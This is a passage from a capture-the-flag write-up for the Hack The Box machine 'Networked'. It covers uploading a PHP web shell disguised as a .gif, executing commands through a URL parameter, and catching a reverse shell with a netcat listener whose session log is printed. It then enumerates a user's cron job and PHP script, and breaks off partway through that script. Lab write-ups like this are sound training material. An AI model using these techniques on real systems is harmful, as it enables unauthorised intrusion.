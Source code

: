 We can find our upload at http://10.10.10.146/photos.php, which leads to the true location of http://10.10.10.146/uploads/10\_10\_14\_18.php.gif. By appending a ?testcommand=id to the end of the url, we can see that we run commands.&#x20;

<figure><img src="../.gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>

## User

I then wrote a quick bash reverse shell and opened up a netcat listener to get a reverse shell.

<figure><img src="../.gitbook/assets/image (33).png" alt=""><figcaption></figcaption></figure>

Nice! We are the apache user, which means we sadly can't read user.txt, but we can go to the home directory of our single user guly. They've got some interesting files, namely a crontab and a php file.

```
┌──(kali㉿kali)-[~/htb/networked]
└─$ nc -lvnp 9001                 
listening on [any] 9001 ...
connect to [10.10.14.18] from (UNKNOWN) [10.10.10.146] 57742
bash: no job control in this shell
bash-4.2$ cd /home/guly
cd /home/guly
bash-4.2$ ls
ls
check_attack.php
crontab.guly
user.txt
bash-4.2$ cat crontab.guly
cat crontab.guly
*/3 * * * * php /home/guly/check_attack.php
bash-4.2$ cat check_attack.php
cat check_attack.php
<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$logpath = '/tmp/attack.log';
$to = 'guly';
$msg= '';
$headers = "X-Mailer: check_attack.php\r\n";

$files = array();
$files = preg_grep('/^([^.])/', scandir($path));

foreach ($files as $key => $value) {
        $msg='';
  if ($value == 'index.html') {
        continue;
  }
  #echo "-------------\n";
```